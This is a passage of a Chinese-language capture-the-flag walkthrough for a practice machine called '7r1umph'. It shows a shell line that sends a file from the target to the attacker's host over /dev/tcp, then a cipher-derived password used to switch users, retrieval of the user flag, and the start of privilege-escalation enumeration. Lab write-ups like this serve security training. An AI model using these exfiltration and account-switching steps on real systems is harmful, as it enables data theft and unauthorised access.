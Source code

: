 **在靶机上发送:**

```bash
www-data@7r1umph:/opt$ cat yeyeye.png > /dev/tcp/192.168.205.128/4444
```

在Kali上查看图片 `yeyeye.png`:

![Dorabella Cipher 图片](https://7r1umphk.github.io/image/20250412190141508.png)

通过图片内容和网络搜索 (Google识图等)，可以识别出这是一种名为 **Dorabella Cipher** 的密码。

参考在线资料（ 如提供的链接 https://geocachen.nl/geocaching/geocache-puzzels-oplossen/dorabella-cipher/ ）进行破译，得到密码：`yecongdong`。

使用这个密码尝试切换到 `welcome` 用户。

```bash
www-data@7r1umph:/opt$ su welcome
Password: yecongdong
$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
$ # 成功切换到 welcome 用户
```

(可选) 为了获得更好的交互体验，可以使用 `welcome:yecongdong` 通过SSH登录靶机。

### 4.3 获取 User Flag

在 `welcome` 用户家目录下查找 `user.txt`。

```bash
welcome@7r1umph:~$ pwd
/home/welcome
welcome@7r1umph:~$ ls -la
total 32
drwx------ 3 welcome welcome 4096 Apr 12 01:29 .
drwxr-xr-x 3 root    root    4096 Apr 11 22:27 ..
# ... 其他文件 ...
-rw-r--r-- 1 root    root      44 Apr 12 00:17 user.txt # 找到 user flag 文件
# ... 其他文件 ...
welcome@7r1umph:~$ cat user.txt
flag{user-d650b42437edc28dfd3637c4ccd445ec}
```

成功获取 `user.flag`。

### 4.4 本地枚举 (welcome)

继续在 `welcome` 用户下进行枚举，寻找提权至 `root` 的线索。发现在家目录下有一个 `RegView` 目录。

```bash
welcome@7r1umph:~$ cd RegView/
welcome@7r1umph:~/RegView$ ls -al
total 476
drwxr-xr-x 3 root    root      4096 Apr 12 01:32 .
drwx------ 3 welcome welcome   4096 Apr 12 01:29 ..
drwxr-xr-x 8 root    root      4096 Apr 12 01:33 .git   # 发现 .git 目录
# ... 其他文件 ...
-rwxr-xr-x 1 root    root      3911 Apr 12 01:02 RegView.sh
# ... 其他文件 ...
```
